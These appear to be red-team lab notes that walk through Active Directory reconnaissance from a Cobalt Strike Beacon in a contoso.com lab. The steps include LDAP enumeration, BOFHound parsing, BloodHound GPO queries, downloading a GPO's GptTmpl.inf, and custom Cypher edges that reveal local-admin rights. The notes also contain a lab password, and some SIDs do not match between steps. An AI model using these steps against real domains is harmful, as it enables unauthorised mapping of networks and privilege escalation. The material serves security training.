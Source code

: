 - Use LDAP to enumerate the domain, users, groups, OUs, and GPOs.
    
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```
    
-  Copy the raw Beacon logs to the Attacker Desktop.
    
    1. From the Windows Terminal, open a tab for Ubuntu.
        
    2. cd /mnt/c/Users/Attacker/Desktop
        
    3. scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .
        
        > The password is Passw0rd!.
        
-  Parse the logs with BOFHound
    
    1. bofhound -i logs

- Start Bloodhound CE and ingest data
- Using the following cypher query, search for GPOs in BloodHound:

```Cypher
Match (n:GPO) return n
```

- Select the 'Workstation Admins' GPO.
    1. Take note of its Gpcpath.
    2. Expand its 'Affected Objects' and select 'Computers'.

-  Select each computer and note their Obiect ID.

- Return to Beacon
- Using the gpcpath for the Workstations Admins GPO, download its **GptTmpl.inf** file using Beacon.

![[Pasted image 20250714094204.png]]

```powershell
ls \\contoso.com\SysVol\contoso.com\Policies\{2583E34A-BBCE-4061-9972-E2ADAB399BB4}\Machine\Microsoft\Windows NT\SecEdit\

download \\dublin.contoso.com\SysVol\dublin.contoso.com\Policies\{BC922AEC-8191-4B0D-8592-8C483703D7FD}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
```

- Sync the file to your Attacker Desktop.
    
    > View > Downloads.
    
-  Open the file in Notepad (or VSCode).
    
    1. Note the SID of the domain group.

![[Pasted image 20250714100312.png]]

> S-1-5-21-3926355307-1661546229-813047887-1107 is a member of S-1-5-32-544

```powershell
ldapsearch (objectSid=S-1-5-21-2958544638-1589230383-838459903-1605)
```

-  Add the custom edges in BloodHound.

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-3101'}) MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-3103'}) MERGE (y)-[:AdminTo]->(x)
```

```Cypher
MATCH (x:Computer{objectid:'S-1-5-21-2958544638-1589230383-838459903-2601'})
MATCH (y:Group{objectid:'S-1-5-21-2958544638-1589230383-838459903-1605'})
MERGE (y)-[:AdminTo]->(x)
```

> BloodHound will now show that rsteel has local administrative privileges on WKSTN-1 and 2.